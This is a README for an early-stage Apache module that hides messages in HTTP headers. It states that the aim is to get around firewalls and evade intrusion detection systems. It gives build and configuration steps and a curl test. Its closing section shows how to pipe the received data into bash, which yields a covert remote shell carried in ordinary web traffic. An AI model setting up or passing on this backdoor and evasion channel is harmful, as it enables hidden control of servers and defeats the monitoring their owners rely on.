 steg-server
===========

Description
-----------
This is the server component of the HTTP Steganography project. 

This Apache module is meant to work together with the client component of the HTTP Steganography project (not yet implemented) to allow hidden client-server communication within the already established web channel, thus removing the need to work around firewall policies and hopefully evading intrusion detection systems. 

**The project is in a very early stage, and most functionality is not yet implemented.**

Quick Start
-----------
Make sure the 'httpd-devel' package for CentOS/RHEL or the equivalent package for your distro is installed. This package contains the header files and the 'apxs' tool necessary to compile this project.

To compile, just 'cd' into the cloned directory and run:
```
$ apxs -c -i -Iinclude mod_steg.c utils.c packet_builder.c config.c
```

Edit your httpd configuration file, e.g. /etc/httpd/conf/httpd.conf, and add a LoadModule directive:
```
LoadModule steg_module     modules/mod_steg.so
```

Finally, configure the Steg module. These are the module-specific directives:
* **stegInputFile**: Full path to the file where recevied information will be written. Server directive (outside Directory sections).
* **stegOutputFile**: Full path to the file where response information will be read from.  Server directive (outside Directory sections).
* **stegKnockCode**: Code that will be used to recognize a steganogram.
* **stegInputMethod**: Steganography method that will be used for incoming requests. For the first prototype, only Header will be available.
* **stegOutputMethod**: Steganography method that will be used for outgoing requests. For the first prototype, only Header will be available.
* **stegShmLockfile**: Lock file for the shared memory
* **stegShmFile**: Shared memory segment

Keep in mind that this module is implemented as two filters, so you need to use Apache's standard **setInputFilter** and **setOutputFilter** directives.


Example configuration:
```
stegInputFile /var/steg/input
stegOutputFile /var/steg/output
stegShmLockfile /var/steg/lock
stegShmFile /var/steg/shm

<Directory "/var/www/html">
  setInputFilter StegInput
  setOutputFilter StegOutput
  stegKnockCode 098asdf234
  stegInputMethod Header Accept-Encoding
  stegOutputMethod Header X-Powered-by
  #Only for testing, it will prevent normal content from being served:
  SetHandler steg
</Directory>

```

Restart httpd:
```
$ systemctl restart httpd.service
```

Testing
-------
For the first prototype, only the simplest Steganography method is supported, thus a simple curl call will suffice:
```
$ curl -H "Accept-Encoding: gzip, deflate, <hidden message>"
```
For now, the format of the message is:
```
knockcode|length|payload
```

Where **knockcode** is just what you configured in Apache, **length** is a 3 byte field that indicates the length of the payload, and **payload** is any string. Example:
```
knock005hello
```

Remote shell
------------
If the input and output files are piped through bash, you can obtain a remote shell (together with steg-client) that communicates exclusively through the http headers of the normal web requests you make while browsing that server's web content:
```
tail -f /var/steg/input | bash 2>/var/steg/output 1>&2
```






